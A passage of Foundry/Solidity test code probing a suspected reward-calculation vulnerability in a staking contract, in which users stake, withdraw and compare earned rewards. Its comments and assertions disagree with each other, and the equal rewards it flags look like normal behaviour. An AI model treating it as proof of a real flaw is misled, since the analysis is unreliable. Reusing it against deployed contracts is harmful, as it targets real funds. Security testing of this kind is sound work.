 ```javascript
            vm.prank(userB);
            rewards.withdraw(initialStake / 10); // Withdraw 10% each time
        }

        // Warp to end of duration
        vm.warp(block.timestamp + duration);

        // Compare rewards
        uint256 rewardsA = rewards.earned(userA);
        uint256 rewardsB = rewards.earned(userB);

        console.log("User A rewards:", rewardsA);
        console.log("User B rewards:", rewardsB);

        // User B should have earned significantly less than User A
        assert(rewardsB < rewardsA);
        // But in reality, they might be close or equal due to the vulnerability
    }

    function testExtremeWithdrawal() public {
        uint256 largeStake = 1000000 * WAD;
        uint256 tinyStake = 1 * WAD;
        uint256 rewardAmount = 1000 * WAD;
        uint256 duration = 7 days;

        initFarm(largeStake + tinyStake, rewardAmount, duration);

        // User A: Stakes large amount and immediately withdraws most
        address userA = address(1);
        address userB = address(2);

        deal(address(gem), userA, largeStake);
        deal(address(gem), userB, tinyStake);

        vm.startPrank(userA);
        gem.approve(address(rewards), largeStake);
        rewards.stake(largeStake);
        rewards.withdraw(largeStake - tinyStake);
        vm.stopPrank();

        // User B: Stakes tiny amount
        vm.startPrank(userB);
        gem.approve(address(rewards), tinyStake);
        rewards.stake(tinyStake);
        vm.stopPrank();

        // Warp to end of duration
        vm.warp(block.timestamp + duration);

        uint256 rewardsA = rewards.earned(userA);
        uint256 rewardsB = rewards.earned(userB);

        console.log("User A rewards (large stake, then withdraw):", rewardsA);
        console.log("User B rewards (tiny stake):", rewardsB);

        // User A and B should have very similar rewards due to the vulnerability
        assertApproxEqRel(rewardsA, rewardsB, 1e16); // 1% tolerance
    }
```

